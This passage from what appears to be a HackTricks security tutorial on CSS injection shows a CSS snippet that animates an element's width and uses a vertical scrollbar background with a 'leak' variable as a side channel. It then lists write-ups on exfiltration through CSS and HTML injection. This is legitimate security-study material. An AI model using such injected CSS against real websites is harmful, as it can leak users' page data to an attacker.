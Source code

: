 ```css
/* increase width char by char, i.e. add new char to prefix */
@keyframes loop {
    0% { width: 0px }
    1% { width: 20px }
    2% { width: 40px }
    3% { width: 60px }
    4% { width: 80px }
    4% { width: 100px }
    5% { width: 120px }
    6% { width: 140px }
    7% { width: 0px }
}

div::-webkit-scrollbar {
    background: blue;
}

/* side-channel */
div::-webkit-scrollbar:vertical {
    background: blue var(--leak);
}
```

## References

* [https://gist.github.com/jorgectf/993d02bdadb5313f48cf1dc92a7af87e](https://gist.github.com/jorgectf/993d02bdadb5313f48cf1dc92a7af87e)
* [https://d0nut.medium.com/better-exfiltration-via-html-injection-31c72a2dae8b](https://d0nut.medium.com/better-exfiltration-via-html-injection-31c72a2dae8b)
* [https://infosecwriteups.com/exfiltration-via-css-injection-4e999f63097d](https://infosecwriteups.com/exfiltration-via-css-injection-4e999f63097d)
* [https://x-c3ll.github.io/posts/CSS-Injection-Primitives/](https://x-c3ll.github.io/posts/CSS-Injection-Primitives/)

<details><summary><a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ HackTricks LIVE Twitch</strong></a> <strong>Wednesdays 5.30pm (UTC) 🎙️ -</strong> <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>
